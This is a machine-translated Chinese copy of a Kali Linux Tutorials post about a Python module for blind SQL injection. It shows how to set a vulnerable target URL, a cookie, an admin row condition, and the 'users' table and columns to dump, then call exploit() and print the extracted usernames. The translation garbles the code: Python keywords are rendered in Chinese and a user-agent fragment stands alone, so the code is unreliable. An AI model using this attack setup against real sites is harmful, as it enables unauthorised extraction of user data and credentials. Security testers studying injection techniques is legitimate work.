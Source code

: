 # 盲 SQL 位移位:一个盲 SQL 注入模块，它使用位移位来计算字符

> 原文：<https://kalilinuxtutorials.com/blind-sql-bitshifting/>

[![Blind SQL Bitshifting : A Blind SQL Injection Module That Uses Bitshfting To Calculate Characters](img/d68c1a9951da48c1cd085e5dab45e536.png "Blind SQL Bitshifting : A Blind SQL Injection Module That Uses Bitshfting To Calculate Characters")](https://1.bp.blogspot.com/-droDKlDZMgU/XTBN9cwLRtI/AAAAAAAABaM/IPE9FuiUUXIb931TWIP6XVPRx8QX2_NqQCLcBGAs/s1600/SQL.png)

这是一个执行盲 SQL 注入的模块，通过使用位移法来**计算**字符而不是猜测它们。根据配置，每个字符需要 7/8 个请求。

**用途**

**导入 blind-SQL-bitshift as x** 
**#编辑本字典配置攻击向量** x.options

**也可阅读-[Dwarf:基于 pyqt 5&Frida](https://kalilinuxtutorials.com/dwarf-arch-os-debugger-pyqt5-frida/)构建的全功能 Multi Arch/OS 调试器**

**示例配置**

**#脆弱链接**
x . options[" target "]= "http://www.example.com/index.php？id = 1 "

**#指定 cookie(可选)** x . options[" cookie "]= " "

**#指定特定行的条件，例如' uid=1 '表示 admin(可选)** x . options[" row _ condition "]= " "

**#用于后续重定向的布尔选项** x . options[" follow _ redirections "]= 0
Google bot/2.1；+http://www . Google . com/bot . html)"

**#指定要转储的表** x . options[" table _ name "]= " users "

**#指定要转储的列** x . options[" columns "]= " id，username "

**# String 检查成功后页面上的语句** x . options[" truth _ String "]=。

assume_only_ascii 选项使模块假定它要转储的字符都是 ascii 字符。由于 ASCII 字符集最多只能达到 127，所以我们可以将第一位设置为 0，而不用担心计算它。请求减少了 12.5%。在本地测试中，这产生了 15%的平均速度提升。当然，当转储 ASCII 范围之外的字符时，这会导致问题。默认情况下，它设置为 0。

**一旦配置完毕:**

**data = x.exploit()**

这将返回一个二维数组，每个子数组包含一行，第一行是列标题。

**示例输出:**

**[' id '，'用户名']，['1 '，' eclipse']，['2 '，' dotcpfile ']，['3 '，' Acey']，['4 '，' Wardy']，['5 '，' idek']]**

或者，您的脚本可以利用制表模块输出数据:

**from 制表导入制表
data = x.exploit()
打印制表(data，headers='firstrow '，#这指定使用第一行作为列标题。
tablefmt='psql') #使用 sql 输出格式。也可以使用其他格式。**

这将输出:

```
+------+------------+
|   id | username   |
|------+------------|
|    1 | eclipse    |
|    2 | dotcppfile |
|    3 | Acey       |
|    4 | Wardy      |
|    5 | idek       |
+------+------------+
```

[**Download**](https://github.com/awnumar/blind-sql-bitshifting)